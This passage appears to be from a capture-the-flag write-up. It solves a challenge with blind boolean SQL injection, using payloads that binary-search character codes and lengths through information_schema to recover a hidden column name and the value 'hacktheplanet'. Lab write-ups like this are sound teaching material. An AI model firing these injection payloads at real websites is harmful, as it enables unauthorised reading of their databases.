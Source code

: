 ```

') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 97 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 120 # => false
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 110 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 115 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) > 117 # => true
') and ascii(substr((select column_name from information_schema.columns where table_name='sql3-truepower' limit 0,1),1,1)) = 119 # => true
=> the first character of the column name is 'w'

Following the same procedure, we know the column name is 'whatyoucanreallydo'
```

#### Guess the name of the first value of whatyoucanreallydo in sql3-truepower

Attempts:

```
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 3 # => true
Notice that there is a '-' in the table name. Hence, we have to use ``.
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 10 # => true
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 14 # => false
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) > 12 # => true
') and length((select whatyoucanreallydo from `sql3-truepower` limit 0,1)) = 13 # => true
=> The length of the first value is 13

Guess the value of the first value of whatyoucanreallydo in sql3-truepower.
') and ascii(substr((select whatyoucanreallydo from `sql3-truepower` limit 0,1) ,1,1)) > 97 # => true
') and ascii(substr((select whatyoucanreallydo from `sql3-truepower` limit 0,1) ,1,1)) = 104 # => true
=> the first character is 'h'

Following the same procedure, we know the command is 'hacktheplanet'
```

Now, we type in `hacktheplanet` into the box:
